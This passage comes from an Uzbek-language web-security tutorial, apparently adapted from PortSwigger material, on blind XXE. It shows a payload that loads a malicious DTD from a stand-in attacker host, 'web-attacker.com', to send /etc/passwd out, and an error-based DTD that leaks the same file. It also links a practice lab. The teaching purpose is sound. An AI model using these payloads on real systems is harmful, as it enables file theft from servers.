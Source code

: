 ```uri
http://web-attacker.com/malicious.dtd
```

Nihoyat endi haker ushbu zararli DTD ni himoyasiz saytga yuklashi mumkin:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Ushbu XXE payload `xxe` deb nomlangan XML parametrdan entitydan foydalanadi va uni DTD ichida ishlatadi. Bu XML parseriga haker serveridan tashqi DTD ni olishiga va uni inline talqinida olib kelishga majburlaydi. Bu ishlar tugagandan so'ng hakerni serveriga /etc/passwd fayli yuklanadi.

{% hint style="info" %}
**Eslatma:**

Bu usul, tarkibida yangi qator belgilarni o'z ichiga olgan `/etc/passwd` fayl kabi ba'zi fayl tarkiblari bilan ishlamasligi mumkin. Buning sababi shundaki, ba'zi XML parserlar URL ichida ruxsat berilgan belgilarni tasdiqlovchi API yordamida e'lon qilingan tashqi entityda URLni olib keladi. Bunday holda, HTTP o'rniga FTP protokolidan foydalanish mumkin. Ba'zida yangi qator belgilarini o'z ichiga olgan ma'lumotlarni o'chirib tashlab bo'lmaydi, shuning uchun uning o'rniga `/etc/hostname` kabi faylni yo'naltirish mumkin.
{% endhint %}

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Ma'lumotlarni zararli tashqi DTD yordamida exfiltatsiya qilish uchun XXEdan foydalanish ≫](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
{% endhint %}

## <mark style="color:yellow;">Xatolik habarlari orqali malumotlarni olish uchun Blind XXEdan foydalanish.</mark> <a href="#blind-xxe-error-lar-orqali-exploit-qilish" id="blind-xxe-error-lar-orqali-exploit-qilish"></a>

Blind XXE dan foydalanishning yana bir usuli bu siz olishni hohlagan mahfiy ma'lumotlarni o'z ichiga olgan xatolik habarlarini keltirib chiqarish uchun XML parsing hatoliklarini yuzaga keltirish. Agar sayt responseda xato xabarini qaytarsa, bu samara beradi.

Siz quyuidagi kabi zararli tashqi DTD dan foydalanib, etc/passwd fayl takibini o'z ichiga olgan XML parsing error habarini yuzaga keltira olasiz&#x20;

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Ushbu DTD quyidagilarni bajaradi:

* `file` deb nomlangan XML parametr entitysini e'lon qilyapti va unining qiymati sifatida  `/etc/passwd` faylini belgilayapti
* `eval`deb nomlangan XML parametr entitysi,  `error` deb nomlangan boshqa XML parametr entity deklaratsiyasini o'z ichiga olgan. `Error` entity, `file` nomli entity qiymatini o'z ichiga olgan mavjud bo'lmagan faylni yuklash orqali baholanadi.
* &#x20;`eval` entitysidan foydalanmoqda, bu esa dinamik deklaratsiyani amalga oshirishga sabab bo'ladigan `error`entitydan foydalanadi.
* `error` entitydan foydalanmoqda,  shuning uchun uning qiymati mavjud bo'lmagan faylni yuklashga uringanida aniqlanadi, natijada mavjud bo'lmagan fayl nomini o'z ichiga olgan xato xabarda `/etc/passwd` fayl tarkibi paydo bo'ladi.
